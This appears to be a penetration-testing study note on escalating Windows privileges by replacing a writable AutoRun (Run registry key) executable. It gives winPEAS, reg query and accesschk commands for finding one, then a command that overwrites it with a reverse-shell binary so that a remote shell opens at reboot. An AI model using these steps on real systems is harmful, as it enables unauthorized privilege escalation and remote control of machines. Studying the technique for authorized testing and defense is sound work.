 # AutoRuns

Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

Use winPEAS to check for writable AutoRun executables:

```
winPEASany.exe quiet applicationsinfo
```

![](<../../../../.gitbook/assets/image (148) (1).png>)

Alternatively, we could manually enumerate the AutoRun executables:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![](<../../../../.gitbook/assets/image (150) (1).png>)

The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

Copy our reverse shell executable to overwrite the AutoRun executable:

```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
```

![](<../../../../.gitbook/assets/image (154).png>)

now start a listener on attacker machine and wait for the system to reboot, the autorun task will start and you will get a remote shell.

{% hint style="info" %}
on windows 10 the exploit will be triggered with the privileges of the last logged on user. so it is possible that we get another shell with the same user privileges.
{% endhint %}
